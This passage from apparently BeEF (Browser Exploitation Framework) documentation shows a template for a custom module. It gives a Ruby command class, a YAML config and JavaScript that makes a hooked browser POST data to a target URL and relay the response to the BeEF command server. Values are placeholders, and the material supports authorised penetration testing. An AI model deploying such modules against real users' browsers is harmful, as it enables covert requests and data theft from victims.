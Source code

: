 ## Custom Module Development

### Module Structure
```ruby
# modules/custom/example_module/module.rb
class Example_module < BeEF::Core::Command
  def self.options
    return [
      {'name' => 'target_url', 'ui_label' => 'Target URL', 'value' => 'http://example.com'},
      {'name' => 'data', 'ui_label' => 'Data to Send', 'value' => 'test_data'}
    ]
  end

  def post_execute
    save({'result' => @datastore['result']})
  end
end
```

### JavaScript Command
```javascript
// modules/custom/example_module/command.js
beef.execute(function() {
    var target_url = '<%= @target_url %>';
    var data = '<%= @data %>';
    
    // Custom functionality
    var xhr = new XMLHttpRequest();
    xhr.open('POST', target_url, true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
    xhr.onreadystatechange = function() {
        if (xhr.readyState == 4) {
            beef.net.send('<%= @command_url %>', <%= @command_id %>, 
                'result=' + encodeURIComponent(xhr.responseText));
        }
    };
    
    xhr.send('data=' + encodeURIComponent(data));
});
```

### Module Configuration
```yaml
# modules/custom/example_module/config.yaml
beef:
    module:
        example_module:
            enable: true
            category: "Custom"
            name: "Example Module"
            description: "Custom module example"
            authors: ["Your Name"]
            target:
                working: ["All"]
```
